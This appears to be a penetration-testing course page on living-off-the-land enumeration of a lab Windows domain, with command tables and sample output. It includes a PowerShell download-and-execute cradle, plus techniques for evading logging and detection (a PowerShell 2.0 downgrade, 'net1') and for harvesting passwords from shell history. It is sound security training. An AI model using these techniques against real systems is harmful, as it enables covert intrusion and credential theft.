

# Living Off the Land
## Env Commands For Host & Network Recon
### Basic Enumeration Commands

<table class="bg-neutral-800 text-primary w-full mb-6 rounded-lg"><thead class="text-left rounded-t-lg"><tr class="border-t-neutral-600 first:border-t-0 border-t"><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4"><strong class="font-bold">Command</strong></th><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4"><strong class="font-bold">Result</strong></th></tr></thead><tbody class="font-mono text-sm"><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">hostname</code></td><td class="p-4">Prints the PC's Name</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">[System.Environment]::OSVersion.Version</code></td><td class="p-4">Prints out the OS version and revision level</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">wmic qfe get Caption,Description,HotFixID,InstalledOn</code></td><td class="p-4">Prints the patches and hotfixes applied to the host</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">ipconfig /all</code></td><td class="p-4">Prints out network adapter state and configurations</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">systeminfo</code></td><td class="p-4">Prints a summary of the host's information for us in one tidy output</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">set</code></td><td class="p-4">Displays a list of environment variables for the current session (ran from CMD-prompt)</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">echo %USERDOMAIN%</code></td><td class="p-4">Displays the domain name to which the host belongs (ran from CMD-prompt)</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">echo %logonserver%</code></td><td class="p-4">Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)</td></tr></tbody></table>

## Harnessing PowerShell

<table class="bg-neutral-800 text-primary w-full mb-6 rounded-lg"><thead class="text-left rounded-t-lg"><tr class="border-t-neutral-600 first:border-t-0 border-t"><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4"><strong class="font-bold">Cmd-Let</strong></th><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4"><strong class="font-bold">Description</strong></th></tr></thead><tbody class="font-mono text-sm"><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">Get-Module</code></td><td class="p-4">Lists available modules loaded for use.</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">Get-ExecutionPolicy -List</code></td><td class="p-4">Will print the <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2" rel="nofollow" target="_blank" class="hover:underline text-green-400">execution policy</a> settings for each scope on a host.</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">Set-ExecutionPolicy Bypass -Scope Process</code></td><td class="p-4">This will change the policy for our current process using the <code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">-Scope</code> parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">Get-ChildItem Env: | ft Key,Value</code></td><td class="p-4">Return environment values such as key paths, users, computer information, etc.</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt</code></td><td class="p-4">With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); &lt;follow-on commands&gt;"</code></td><td class="p-4">This is a quick and easy way to download a file from the web using PowerShell and call it from memory.</td></tr></tbody></table>

### Quick Checks Using PowerShell

```pwsh
PS C:\htb> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   1.0.1.0    ActiveDirectory                     {Add-ADCentralAccessPolicyMember, Add-ADComputerServiceAcc...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...

PS C:\htb> Get-ExecutionPolicy -List
Get-ExecutionPolicy -List

        Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
   UserPolicy       Undefined
      Process       Undefined
  CurrentUser       Undefined
 LocalMachine    RemoteSigned


PS C:\htb> whoami
nt authority\system

PS C:\htb> Get-ChildItem Env: | ft key,value

Get-ChildItem Env: | ft key,value

Key                     Value
---                     -----
ALLUSERSPROFILE         C:\ProgramData
APPDATA                 C:\Windows\system32\config\systemprofile\AppData\Roaming
CommonProgramFiles      C:\Program Files (x86)\Common Files
CommonProgramFiles(x86) C:\Program Files (x86)\Common Files
CommonProgramW6432      C:\Program Files\Common Files
COMPUTERNAME            ACADEMY-EA-MS01
ComSpec                 C:\Windows\system32\cmd.exe
DriverData              C:\Windows\System32\Drivers\DriverData
LOCALAPPDATA            C:\Windows\system32\config\systemprofile\AppData\Local
NUMBER_OF_PROCESSORS    4
OS                      Windows_NT
Path                    C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShel...
PATHEXT                 .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC;.CPL
PROCESSOR_ARCHITECTURE  x86
PROCESSOR_ARCHITEW6432  AMD64
PROCESSOR_IDENTIFIER    AMD64 Family 23 Model 49 Stepping 0, AuthenticAMD
PROCESSOR_LEVEL         23
PROCESSOR_REVISION      3100
ProgramData             C:\ProgramData
ProgramFiles            C:\Program Files (x86)
ProgramFiles(x86)       C:\Program Files (x86)
ProgramW6432            C:\Program Files
PROMPT                  $P$G
PSModulePath            C:\Program Files\WindowsPowerShell\Modules;WindowsPowerShell\Modules;C:\Program Files (x86)\...
PUBLIC                  C:\Users\Public
SystemDrive             C:
SystemRoot              C:\Windows
TEMP                    C:\Windows\TEMP
TMP                     C:\Windows\TEMP
USERDOMAIN              INLANEFREIGHT
USERNAME                ACADEMY-EA-MS01$
USERPROFILE             C:\Windows\system32\config\systemprofile
windir                  C:\Windows
```

### Downgrade Powershell
Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer. This is a great way for us to remain under the defenders' radar while still utilizing resources built into the hosts to our advantage.

```pwsh
PS C:\htb> Get-host

Name             : ConsoleHost
Version          : 5.1.19041.1320
InstanceId       : 18ee9fb4-ac42-4dfe-85b2-61687291bbfc
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : en-US
CurrentUICulture : en-US
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
DebuggerEnabled  : True
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace

PS C:\htb> powershell.exe -version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\htb> Get-host
Name             : ConsoleHost
Version          : 2.0
InstanceId       : 121b807c-6daa-4691-85ef-998ac137e469
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : en-US
CurrentUICulture : en-US
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace

PS C:\htb> get-module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     0.0        chocolateyProfile                   {TabExpansion, Update-SessionEnvironment, refreshenv}
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Content...}
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     0.7.3.1    posh-git                            {Add-PoshGitToProfile, Add-SshKey, Enable-GitColors, Expand-GitCommand...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PSReadLineKeyHandler...
```

We can now see that we are running an older version of PowerShell from the output above. Notice the difference in the version reported. It validates we have successfully downgraded the shell. Let's check and see if we are still writing logs. The primary place to look is in the `PowerShell Operational Log` found under `Applications and Services Logs` > `Microsoft` > `Windows` > `PowerShell` > `Operational`. All commands executed in our session will log to this file. The Windows PowerShell log located at `Applications and Services Logs` > `Windows PowerShell` is also a good place to check. Be aware that the action of issuing the command `powershell.exe -version 2` within the PowerShell session will be logged. 

## Checking Defenses
### Firewall Checks

```pwsh
PS C:\htb> netsh advfirewall show allprofiles

Domain Profile Settings:
----------------------------------------------------------------------
State                                 OFF
Firewall Policy                       BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (GPO-store only)
LocalConSecRules                      N/A (GPO-store only)
InboundUserNotification               Disable
RemoteManagement                      Disable
UnicastResponseToMulticast            Enable

Logging:
LogAllowedConnections                 Disable
LogDroppedConnections                 Disable
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096

Private Profile Settings:
----------------------------------------------------------------------
State                                 OFF
Firewall Policy                       BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (GPO-store only)
LocalConSecRules                      N/A (GPO-store only)
InboundUserNotification               Disable
RemoteManagement                      Disable
UnicastResponseToMulticast            Enable

Logging:
LogAllowedConnections                 Disable
LogDroppedConnections                 Disable
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096

Public Profile Settings:
----------------------------------------------------------------------
State                                 OFF
Firewall Policy                       BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (GPO-store only)
LocalConSecRules                      N/A (GPO-store only)
InboundUserNotification               Disable
RemoteManagement                      Disable
UnicastResponseToMulticast            Enable

Logging:
LogAllowedConnections                 Disable
LogDroppedConnections                 Disable
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096
```

### Windows Defender Check (from CMD.exe)

```cmd
C:\htb> sc query windefend

SERVICE_NAME: windefend
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

### Get-MpComputerStatus
Above, we checked if Defender was running. Below we will check the status and configuration settings with the [Get-MpComputerStatus](https://docs.microsoft.com/en-us/powershell/module/defender/get-mpcomputerstatus?view=windowsserver2022-ps) cmdlet in PowerShell.

```pwsh
PS C:\htb> Get-MpComputerStatus

AMEngineVersion                  : 1.1.19000.8
AMProductVersion                 : 4.18.2202.4
AMRunningMode                    : Normal
AMServiceEnabled                 : True
AMServiceVersion                 : 4.18.2202.4
AntispywareEnabled               : True
AntispywareSignatureAge          : 0
AntispywareSignatureLastUpdated  : 3/21/2022 4:06:15 AM
AntispywareSignatureVersion      : 1.361.414.0
AntivirusEnabled                 : True
AntivirusSignatureAge            : 0
AntivirusSignatureLastUpdated    : 3/21/2022 4:06:16 AM
AntivirusSignatureVersion        : 1.361.414.0
BehaviorMonitorEnabled           : True
ComputerID                       : FDA97E38-1666-4534-98D4-943A9A871482
ComputerState                    : 0
DefenderSignaturesOutOfDate      : False
DeviceControlDefaultEnforcement  : Unknown
DeviceControlPoliciesLastUpdated : 3/20/2022 9:08:34 PM
DeviceControlState               : Disabled
FullScanAge                      : 4294967295
FullScanEndTime                  :
FullScanOverdue                  : False
FullScanRequired                 : False
FullScanSignatureVersion         :
FullScanStartTime                :
IoavProtectionEnabled            : True
IsTamperProtected                : True
IsVirtualMachine                 : False
LastFullScanSource               : 0
LastQuickScanSource              : 2

<SNIP>
```

Knowing what revision our AV settings are at and what settings are enabled/disabled can greatly benefit us. We can tell how often scans are run, if the on-demand threat alerting is active, and more. 

## Am I Alone?
When landing on a host for the first time, one important thing is to check and see if you are the only one logged in. If you start taking actions from a host someone else is on, there is the potential for them to notice you. 

### Using qwinsta

```pwsh
PS C:\htb> qwinsta

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
>console           forend                    1  Active
 rdp-tcp                                 65536  Listen
```

## Network Information

<table class="bg-neutral-800 text-primary w-full mb-6 rounded-lg"><thead class="text-left rounded-t-lg"><tr class="border-t-neutral-600 first:border-t-0 border-t"><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4"><strong class="font-bold">Networking Commands</strong></th><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4"><strong class="font-bold">Description</strong></th></tr></thead><tbody class="font-mono text-sm"><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">arp -a </code></td><td class="p-4">Lists all known hosts stored in the arp table.</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">ipconfig /all</code></td><td class="p-4">Prints out adapter settings for the host. We can figure out the network segment from here.</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">route print</code></td><td class="p-4">Displays the routing table (IPv4 &amp; IPv6) identifying known networks and layer three routes shared with the host.</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">netsh advfirewall show allprofiles</code></td><td class="p-4">Displays the status of the host's firewall. We can determine if it is active and filtering traffic.</td></tr></tbody></table>

## Windows Management Instrumentation (WMI)
[Windows Management Instrumentation (WMI)](https://docs.microsoft.com/en-us/windows/win32/wmisdk/about-wmi) is a scripting engine that is widely used within Windows enterprise environments to retrieve information and run administrative tasks on local and remote hosts.

### Quick WMI checks

<table class="bg-neutral-800 text-primary w-full mb-6 rounded-lg"><thead class="text-left rounded-t-lg"><tr class="border-t-neutral-600 first:border-t-0 border-t"><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4"><strong class="font-bold">Command</strong></th><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4"><strong class="font-bold">Description</strong></th></tr></thead><tbody class="font-mono text-sm"><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">wmic qfe get Caption,Description,HotFixID,InstalledOn</code></td><td class="p-4">Prints the patch level and description of the Hotfixes applied</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List</code></td><td class="p-4">Displays basic host information to include any attributes within the list</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">wmic process list /format:list</code></td><td class="p-4">A listing of all processes on host</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">wmic ntdomain list /format:list</code></td><td class="p-4">Displays information about the Domain and Domain Controllers</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">wmic useraccount list /format:list</code></td><td class="p-4">Displays information about all local accounts and any domain accounts that have logged into the device</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">wmic group list /format:list</code></td><td class="p-4">Information about all local groups</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">wmic sysaccount list /format:list</code></td><td class="p-4">Dumps information about any system accounts that are being used as service accounts.</td></tr></tbody></table>

Below we can see information about the domain and the child domain, and the external forest that our current domain has a trust with. This [cheatsheet](https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4) has some useful commands for querying host and domain info using wmic.

```pwsh
PS C:\htb> wmic ntdomain get Caption,Description,DnsForestName,DomainName,DomainControllerAddress

Caption          Description      DnsForestName           DomainControllerAddress  DomainName
ACADEMY-EA-MS01  ACADEMY-EA-MS01
INLANEFREIGHT    INLANEFREIGHT    INLANEFREIGHT.LOCAL     \\172.16.5.5             INLANEFREIGHT
LOGISTICS        LOGISTICS        INLANEFREIGHT.LOCAL     \\172.16.5.240           LOGISTICS
FREIGHTLOGISTIC  FREIGHTLOGISTIC  FREIGHTLOGISTICS.LOCAL  \\172.16.5.238           FREIGHTLOGISTIC
```

## Net Commands
[Net](https://docs.microsoft.com/en-us/windows/win32/winsock/net-exe-2) commands can be beneficial to us when attempting to enumerate information from the domain. These commands can be used to query the local host and remote hosts, much like the capabilities provided by WMI. We can list information such as:

- Local and domain users
- Groups
- Hosts
- Specific users in groups
- Domain Controllers
- Password requirements

### Table of Useful Net Commands

<table class="bg-neutral-800 text-primary w-full mb-6 rounded-lg"><thead class="text-left rounded-t-lg"><tr class="border-t-neutral-600 first:border-t-0 border-t"><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4"><strong class="font-bold">Command</strong></th><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4"><strong class="font-bold">Description</strong></th></tr></thead><tbody class="font-mono text-sm"><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net accounts</code></td><td class="p-4">Information about password requirements</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net accounts /domain</code></td><td class="p-4">Password and lockout policy</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net group /domain</code></td><td class="p-4">Information about domain groups</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net group "Domain Admins" /domain</code></td><td class="p-4">List users with domain admin privileges</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net group "domain computers" /domain</code></td><td class="p-4">List of PCs connected to the domain</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net group "Domain Controllers" /domain</code></td><td class="p-4">List PC accounts of domains controllers</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net group &lt;domain_group_name&gt; /domain</code></td><td class="p-4">User that belongs to the group</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net groups /domain</code></td><td class="p-4">List of domain groups</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net localgroup</code></td><td class="p-4">All available groups</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net localgroup administrators /domain</code></td><td class="p-4">List users that belong to the administrators group inside the domain (the group <code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">Domain Admins</code> is included here by default)</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net localgroup Administrators</code></td><td class="p-4">Information about a group (admins)</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net localgroup administrators [username] /add</code></td><td class="p-4">Add user to administrators</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net share</code></td><td class="p-4">Check current shares</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net user &lt;ACCOUNT_NAME&gt; /domain</code></td><td class="p-4">Get information about a user within the domain</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net user /domain</code></td><td class="p-4">List all users of the domain</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net user /domain %username%</code></td><td class="p-4">Information about a Domain User</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net user %username%</code></td><td class="p-4">Information about the current user</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net use x: \computer\share</code></td><td class="p-4">Mount the share locally</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net view</code></td><td class="p-4">Get a list of computers</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net view /all /domain[:domainname]</code></td><td class="p-4">Shares on the domains</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net view \computer /ALL</code></td><td class="p-4">List shares of a computer</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">net view /domain </code></td><td class="p-4">List of PCs of the domain</td></tr></tbody></table>

### Net Commands Trick
If you believe the network defenders are actively logging/looking for any commands out of the normal, you can try this workaround to using net commands. Typing `net1` instead of `net` will execute the same functions without the potential trigger from the net string.

## Dsquery DLL
All we need is elevated privileges on a host or the ability to run an instance of Command Prompt or PowerShell from a `SYSTEM` context. 

### User Search

```pwsh
PS C:\htb> dsquery user

"CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Guest,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=lab_adm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=krbtgt,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Htb Student,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Annie Vazquez,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Paul Falcon,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Fae Anthony,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Walter Dillard,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Louis Bradford,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Sonya Gage,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Alba Sanchez,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Daniel Branch,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Christopher Cruz,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Nicole Johnson,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Mary Holliday,OU=Human Resources,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Michael Shoemaker,OU=Human Resources,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Arlene Slater,OU=Human Resources,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Kelsey Prentiss,OU=Human Resources,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
```

### Computer Search

```pwsh
PS C:\htb> dsquery computer

"CN=ACADEMY-EA-DC01,OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL"
"CN=ACADEMY-EA-MS01,OU=Web Servers,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=ACADEMY-EA-MX01,OU=Mail,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=SQL01,OU=SQL Servers,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=ILF-XRG,OU=Critical,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=MAINLON,OU=Critical,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=CISERVER,OU=Critical,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=INDEX-DEV-LON,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=SQL-0253,OU=SQL Servers,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0615,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0616,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0617,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0618,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0619,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0620,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
